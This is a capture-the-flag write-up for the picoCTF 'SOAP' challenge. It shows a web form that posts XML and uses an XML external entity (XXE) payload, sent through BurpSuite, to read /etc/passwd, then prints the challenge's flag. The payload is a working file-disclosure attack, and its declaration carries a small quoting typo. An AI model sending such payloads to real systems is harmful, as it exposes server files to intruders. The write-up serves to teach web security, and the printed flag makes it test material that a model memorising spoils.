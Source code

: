 # SOAP

The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file? [Web Portal](http://saturn.picoctf.net:63507/)

-----

Opening the website, we are given the following page:

![[picoctf/images/Pasted image 20250225120831.png]]

Clicking on the **Details** buttons shows data is sent to `/data` in XML:

![[picoctf/images/Pasted image 20250225120900.png]]

This website is vulnerable to [XML XXE](https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html) which we can send via BurpSuite:

```
<?xml version="1.0" encoding="UTF-8?">
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data><ID>&file;</ID></data>
```

*![[picoctf/images/Pasted image 20250225121720.png]]*

```
picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
```